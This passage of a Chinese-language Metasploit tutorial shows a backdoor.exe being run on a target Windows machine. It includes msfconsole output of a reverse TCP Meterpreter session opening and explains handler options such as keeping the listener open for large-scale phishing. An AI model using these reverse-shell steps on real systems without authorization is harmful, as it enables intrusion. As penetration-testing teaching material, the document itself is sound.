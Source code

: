 3.  **将 `backdoor.exe` 传输到目标 Windows 机器并执行**：
    （假设目标机器的 IP 是 192.168.1.50）

4.  **在 `msfconsole` 中接收会话**：
    当 `backdoor.exe` 在目标机器上成功运行后，`msfconsole` 会显示：
    ```
    [*] Started reverse TCP handler on 192.168.1.100:4444
    [*] Sending stage (175680 bytes) to 192.168.1.50
    [*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.50:port) at 2024-03-01 06:24:00 +0800
    meterpreter >
    ```
    此时，你已经获得了 Meterpreter 会话，可以开始进行后渗透操作了。

### 2.3 `handler` 的高级选项

虽然 `handler` 的主要参数是 `PAYLOAD`, `LHOST`, `LPORT`，但它也有一些其他有用的通用选项：

*   **`ExitOnSession`**：当获得第一个会话后，是否自动退出 `handler`。
    *   **`set ExitOnSession false`**：这允许 `handler` 在获得会话后继续监听，以便接收来自其他目标或同一目标的多个会话。这在进行大规模钓鱼或多目标渗透测试时非常有用。
*   **`ReverseAllowProxy`**：允许通过代理接收反向连接。
*   **`ReverseListenerBindAddress`** 和 **`ReverseListenerBindPort`**：用于指定 `handler` 实际绑定到哪个本地 IP 地址和端口进行监听。这在有多块网卡或需要监听特定接口时非常有用（通常与 `LHOST` 相同，但在复杂网络环境中可能不同）。

## 三、`exploit/multi/handler` 与其他模块的关系

{% mermaid %}
graph TD
    subgraph Attacker Workflow
        A[msfvenom - Generate Payload] --> B[exploit/multi/handler - Set Listener]
    end

    subgraph Defense Bypass
        B --> C{Target Execution of Payload}
    end

    subgraph Session Management
        C -- If successful --> D[Meterpreter/Shell Session]
        D --> E[Post-Exploitation Modules]
    end

    style A fill:#aed,stroke:#333,stroke-width:2px,color:#000
    style B fill:#baf,stroke:#333,stroke-width:2px,color:#000
    style D fill:#fad,stroke:#333,stroke-width:2px,color:#000
{% endmermaid %}

`exploit/multi/handler` 在整个 Metasploit 渗透测试工作流中扮演着承上启下的关键角色：

1.  **与 `msfvenom` 配合**：
    *   `msfvenom` 负责生成恶意二进制文件、Web Shell、Shellcode 等各种形式的 Payload，这些 Payload 中包含了回连到 `handler` 的代码。
    *   `handler` 则负责接收这些 `msfvenom` 生成的 Payload 的回连。两者是天作之合，共同实现了反向 Shell 的完整流程。

2.  **管理会话**：
    *   一旦 `handler` 成功接收连接并建立会话（如 Meterpreter 会话），攻击者就可以使用 `sessions` 命令来查看、切换和管理这些会话。
    *   `handler` 可以同时管理多个会话，如果设置 `ExitOnSession false`，它甚至可以在一个会话关闭后继续监听新的回连。
